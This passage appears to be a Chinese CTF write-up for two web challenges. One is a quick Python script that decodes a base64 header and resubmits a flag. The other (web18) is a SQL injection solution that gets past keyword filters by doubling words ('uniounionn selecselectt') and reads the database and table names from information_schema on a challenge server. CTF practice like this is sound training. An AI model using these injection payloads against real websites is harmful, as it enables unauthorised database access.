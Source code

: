 ![23.jpg](https://i.loli.net/2019/04/24/5cc0496dde0a3.jpg)

解密后是一个flag,但是提交发现并不正确，仔细观察数据包会发现一个hint

	Hint: Seeing is not believing, maybe you need to be faster!

尝试将假flag中的字符串当做密码提交

![24.jpg](https://i.loli.net/2019/04/24/5cc04b22f2c91.jpg)

提示我们要快一些，这样写脚本就可以了

	import requests
	import base64
	import re
	url = "http://123.206.31.85:10013/index.php"
	s = requests.session()
	html = s.post(url,data={"password":"123456"})
	#print(html.text)
	password1 = html.headers['password']
	password2 = base64.b64decode(password1)
	re_str = re.compile('flag{(.*?)}',re.S)
	password = re.findall(re_str,str(password2))
	print(password[0])
	html = s.post(url,data={"password":password[0]})
	print(html.text)

![25.jpg](https://i.loli.net/2019/04/24/5cc04d9db966e.jpg)

## web18 ##

题目是一道sql注入，过滤了and or select union 这些可用双写绕过

判断列数

	http://123.206.31.85:10018/list.php?id=2' oorrder by 3--+

![27.jpg](https://i.loli.net/2019/04/24/5cc06384e1735.jpg)

在判断为4时页面无返回

所以我们得到列数为3

查询数据库名

	http://123.206.31.85:10018/list.php?id=-2' uniounionn selecselectt 1,database(),3--+

![28.jpg](https://i.loli.net/2019/04/24/5cc0641c8b186.jpg)

查询表名

	http://123.206.31.85:10018/list.php?id=-2' uniounionn selecselectt 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema='web18'--+

![29.jpg](https://i.loli.net/2019/04/24/5cc0657ba5f3e.jpg)
